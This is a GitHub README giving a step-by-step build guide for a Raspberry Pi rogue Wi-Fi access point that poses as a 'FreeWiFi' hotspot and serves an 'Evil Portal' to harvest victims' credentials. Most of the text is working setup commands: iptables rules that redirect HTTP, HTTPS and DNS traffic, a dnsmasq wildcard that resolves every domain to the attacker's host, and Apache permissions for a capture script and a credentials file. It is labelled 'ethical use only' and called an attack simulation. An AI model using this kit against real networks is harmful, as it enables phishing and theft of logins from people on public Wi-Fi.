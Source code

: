 # WiFi-Pinapple
Step-by-Step guide to create a wifi-pinapple using raspberry pi with Evil Portal feature. *Ethical use only*
You have to MANUALLY set up the IP, Gateway and DNS for the victim test device as in this setup i have set the IP assign to MANUAL. Check out the `Issues` at the bottom of this readme file guide.
If you dont get redirected to the evil page when opening any http/https website go to the ip `192.168.1.2/` manually and click on portal, the evil page will load. If you want to redirect then check if `iptables` is set correctly. this project is in contineous improvement but the basic Attack simulation works!!

---
## Devices i used
- Raspberry Pi Zero 2W
- Raspberry Pi Pico WH
- TP Link AC600 T2U Plus
- ssd1306 Oled module

---
## Devices Setup
### Zero 2W
Install raspberry pi os lite 32 bit and configure the wifi and ssh when flashing the image to the sd card in the raspberry pi official imager tool. Then connect to the pi using ssh from your PC.
Once you have booted the pi. do `sudo apt update && sudo apt upgrade -y` to update the system and packages. I will use an external wifi adapter as wlan1 (TP Link AC600 T2U plus).
Install these before continuing, ` sudo apt-get install dnsmasq apache2 php libapache2-mod-php -y`

#### TP link ac600 driver install
- First, `sudo apt update && sudo apt install -y build-essential raspberrypi-kernel-headers git dkms` and then reboot.
- download the github driver: ` sudo git clone https://github.com/aircrack-ng/rtl8812au.git`
- cd rtl8812au
- Now clean make to ensure no conflicting processes. `sudo make clean`
- Now `sudo make && sudo make install` to install the driver. *[NOTE: This takes a while, approx. 20-30 mins, don't worry\]* once done, reboot the pi and ensure by checking `iwconfig` or `ip addr show wlan1`.

### Pico WH
*[NOTE: Follow the `picoWH setup` file in this directory to setup AP for Wifi pinapple Evil portal feature\]*

### Configure wlan1 for Evil Portal
setup the wlan1 for static ip address and we will setup the landing page after redirections to our evil portal ip address to harvest credentials. In this project i have immitated a public wifi with free access.</br>
Connect the wlan1 to the pico's AP, `sudo nmcli device wifi connect "FreeWiFi" ifname wlan1`. </br>

Setup static ip for wlan1 :

- sudo nmcli connection modify "FreeWiFi" ipv4.addresses 192.168.1.2/24
- sudo nmcli connection modify "FreeWiFi" ipv4.gateway 192.168.1.1
- sudo nmcli connection modify "FreeWiFi" ipv4.dns 192.168.1.2
- sudo nmcli connection modify "FreeWiFi" ipv4.method manual
- sudo nmcli connection up "FreeWiFi"

#### Redirection and Evil Portal
- Clear duplicates and existing rules in `iptables`:
`sudo iptables -t nat -F`
`sudo iptables -F`
- Enable IP forwarding:
`sudo sysctl -w net.ipv4.ip_forward=1`
`sudo sh -c "echo 'net.ipv4.ip_forward=1' >> /etc/sysctl.conf"`
- Add rules:</br>
```text
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.2:80
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 443 -j DNAT --to-destination 192.168.1.2:80
sudo iptables -t nat -A PREROUTING -i wlan1 -p udp --dport 53 -j DNAT --to-destination 192.168.1.2:53
sudo iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -o wlan1 -j ACCEPT
```
- Save:
`sudo mkdir -p /etc/iptables`
`sudo sh -c "iptables-save > /etc/iptables/rules.v4"`
- Enable persistence by `sudo apt install -y netfilter-persistent iptables-persistent` (click yes to overwrite the exixting iptable)
- You can verify by `sudo iptables -t nat -L -v -n` & `cat /etc/iptables/rules.v4`, if something is wrong go over the above steps again.

#### Configure Dnsmasq
Power off the pico before you do this step.</br>
Edit `dnsmasq.conf` and add the below lines:</br>
```text
interface=wlan1
dhcp-range=192.168.1.100,192.168.1.200,12h
address=/portal.local/192.168.1.2
address=/#/192.168.1.2
no-resolv
server=8.8.8.8
```
Now restart the dnsmasq, `sudo systemctl restart dnsmasq`.

#### Configure Apache2

- sudo systemctl enable apache2
- sudo systemctl start apache2
- sudo chown -R www-data:www-data /var/www/html
- sudo chmod -R 755 /var/www/html

Now save all the `files` from the portal folder in this repo to `/var/www/html/portal`. Now again set the below permissions to the portal dir:</br>
```text
sudo chown www-data:www-data /var/www/html/portal/capture.php
sudo chmod 644 /var/www/html/portal/capture.php
sudo touch /var/www/html/portal/credentials.txt
sudo chown www-data:www-data /var/www/html/portal/credentials.txt
sudo chmod 664 /var/www/html/portal/credentials.txt
```
Finally power the pico again and reconnect wlan1: `sudo nmcli device wifi connect "FreeWiFi" ifname wlan1`

---

Issues: 
- After connecting to the rogue AP on the victim test device ensure you set up the IP, Gateway and DNS yourself as in this project i have set the *dhcp to manual*.
- If its not redirecting to the evil portal page for harvesting credentials page (index.html on the apache server). Then ensure you have set the iptables correctly.
- You can fork this repo or open a new Issue.
